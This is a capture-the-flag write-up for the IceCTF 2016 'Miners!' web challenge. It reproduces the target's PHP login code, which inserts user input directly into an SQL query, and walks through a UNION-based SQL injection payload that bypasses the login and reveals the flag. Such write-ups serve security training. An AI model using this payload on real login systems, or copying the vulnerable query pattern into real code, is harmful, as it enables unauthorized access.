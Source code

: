 # IceCTF 2016
# Miners!
######Web -- 65 points
## Description
The miners website has been working on adding a login portal so that all miners can get the flag, but they haven't made any accounts! However, your boss demands the flag now! Can you get in anyway? [miners.vuln.icec.tf](http://miners.vuln.icec.tf) 

## Solution
The authors of the miners site have conveniently included a link to the PHP code they use to validate logins. 

~~~
<?php
include "config.php";
$con = mysqli_connect($MYSQL_HOST, $MYSQL_USER, $MYSQL_PASS, $MYSQL_DB);
$username = $_POST["username"];
$password = $_POST["password"];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) !== 1) {
  echo "<h1>Login failed.</h1>";
  } else {
    echo "<h1>Logged in!</h1>";
	echo "<p>Your flag is: $FLAG</p>";
  }
?>
~~~

The site will let you in if the query returns 1 and only 1 record. 

The challenge description suggests that there are no valid users in the database, but we need it to return 1 record anyway. 

The SQL `UNION` keyword, will join two seperate SELECT queries together, provided that they both have the same number of fields. 

We can make the assumption that the users table has three fields, *user_id*, *username*, and *password*. 

If the string, `' UNION SELECT '1','2','3` is injected into the password field, the whole query becomes 
~~~
SELECT * FROM users WHERE username='' AND password='' UNION SELECT '1','2','3'
~~~

This gives us the flag, IceCTF{the_miners_union_is_a_strong_one}.

